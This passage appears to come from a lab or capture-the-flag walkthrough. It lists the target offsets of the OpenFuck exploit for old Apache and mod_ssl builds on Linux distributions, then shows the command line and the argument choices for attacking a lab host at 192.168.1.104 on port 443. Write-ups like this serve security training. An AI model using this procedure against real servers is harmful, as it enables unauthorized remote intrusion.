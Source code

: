```shell
        0x6c - RedHat Linux 7.2-Update (apache-1.3.22-6)
        0x6d - RedHat Linux 7.2 (apache-1.3.24)
        0x6e - RedHat Linux 7.2 (apache-1.3.26)
        0x6f - RedHat Linux 7.2 (apache-1.3.26-snc)
        0x70 - Redhat Linux 7.2 (apache-1.3.26 w/PHP)1
        0x71 - Redhat Linux 7.2 (apache-1.3.26 w/PHP)2
        0x72 - RedHat Linux 7.2-Update (apache-1.3.27-1.7.2)
        0x73 - RedHat Linux 7.3 (apache-1.3.23-11)1
        0x74 - RedHat Linux 7.3 (apache-1.3.23-11)2
        0x75 - RedHat Linux 7.3 (apache-1.3.27)
        0x76 - RedHat Linux 8.0 (apache-1.3.27)
        0x77 - RedHat Linux 8.0-second (apache-1.3.27)
        0x78 - RedHat Linux 8.0 (apache-2.0.40)
        0x79 - Slackware Linux 4.0 (apache-1.3.6)
        0x7a - Slackware Linux 7.0 (apache-1.3.9)
        0x7b - Slackware Linux 7.0 (apache-1.3.26)
        0x7c - Slackware 7.0  (apache-1.3.26)2
        0x7d - Slackware Linux 7.1 (apache-1.3.12)
        0x7e - Slackware Linux 8.0 (apache-1.3.20)
        0x7f - Slackware Linux 8.1 (apache-1.3.24)
        0x80 - Slackware Linux 8.1 (apache-1.3.26)
        0x81 - Slackware Linux 8.1-stable (apache-1.3.26)
        0x82 - Slackware Linux (apache-1.3.27)
        0x83 - SuSE Linux 7.0 (apache-1.3.12)
        0x84 - SuSE Linux 7.1 (apache-1.3.17)
        0x85 - SuSE Linux 7.2 (apache-1.3.19)
        0x86 - SuSE Linux 7.3 (apache-1.3.20)
        0x87 - SuSE Linux 8.0 (apache-1.3.23)
        0x88 - SUSE Linux 8.0 (apache-1.3.23-120)
        0x89 - SuSE Linux 8.0 (apache-1.3.23-137)
        0x8a - Yellow Dog Linux/PPC 2.3 (apache-1.3.22-6.2.3a)
```

The needed arguments to run the exploit are:

```shell
./OpenFuck target box [port] [-c N]
```

- `target` : since the running version of Apache is 1.3.20 and the OS is RedHat it’s one of these two values (`0x6a` or `0x6b`).
- `box` : in our case, it is **"192.168.1.104"**.
- `port` : **443**.

There are two potential values for the box parameter, as long as the target machine is RedHat. Let's try using `0x6a`.
